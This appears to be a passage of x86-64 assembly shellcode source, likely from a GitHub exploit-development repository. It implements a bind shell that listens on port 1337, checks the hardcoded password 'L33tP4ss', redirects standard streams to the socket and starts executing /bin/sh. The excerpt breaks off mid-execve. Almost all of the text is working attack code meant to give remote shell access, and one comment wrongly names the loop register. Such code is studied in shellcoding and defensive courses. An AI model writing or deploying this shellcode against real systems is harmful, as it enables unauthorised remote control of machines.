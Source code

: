 ```nasm
			        ; so xor edi, edi is the same as xor rdi,rdi but shorter, and that's good for us
			      
   mul edi                      ; RAX, RDX, RDI set to 0
   inc edi              
   mov esi, edi                 ; SOCK_STREAM
   inc edi                      ; AF_INET
   mov al, 41               	; socket syscall value
   syscall                  	; exec syscall

   ; bind(sockfd, {INADDR_ANY, 1337, AF_INET}, 16)
   mov ebx, edx			; we save a 0
   push rdx			; INADDR_ANY (0.0.0.0)
   push word 0x3905		; port 1337
   push di 			; AF_INET
   mov edi, eax			; sockfd
   mov rsi, rsp			; RSI point to the sockaddr struct
   mov dl, 0x10			; addrlen
   mov al, 49			; bind syscall value
   syscall                  	; exec syscall

   ; listen(sockfd, 0) 
   mov esi, ebx			; 0 for no queue
				; RDI already set to sockfd
   mov al, 50			; listen syscall value
   syscall			; exec syscall

   ; accept(sockfd, null, null)
   cdq				; RDX set to null pointer
				; RSI already set to null pointer
				; RDI already set to sockfd
   mov al, 43			; accept syscall value
   syscall                  	; exec syscall

   xchg eax, edi		; copy the new sockfd into RDI

try_pass:
   ;read(int fd, void *buf, size_t count);
   mov rsi, rsp			; RSI point to the stack, to write the password
   mov dl, 8			; number of bytes to read from sockfd and write to RSI address
   mov eax, ebx			; read syscall value
   syscall                  	; exec syscall

   xchg rdi, rsi		; copy user password address to RDI and keep sockfd in RSI
   mov rax, 0x737334507433334c  ; L33tP4ss
   scasq			; compare 8 bytes from RAX with 8 bytes from RDI
   xchg rdi, rsi		; reset RDI to sockfd value
   jnz try_pass		        ; if ZF not set RAX/RDI were different (Bad password, so retry)

   mov esi, ebx			; RSI set to 0
   xchg eax, ebx		; RAX set to 0
   add esi, 3			; dup2 counter initialized

dup:
   ; dup2(sockfd, stdio)
   dec esi			; starting with stderr(2) to stdin(0)
				; RDI already set to sockfd
   mov al, 33			; dup2 syscall value
   syscall			; exec syscall
   jnz dup			; if RCX != 0 we need to confinue

   ; execve("/bin/sh", null, null)
   push rax			; string terminator
```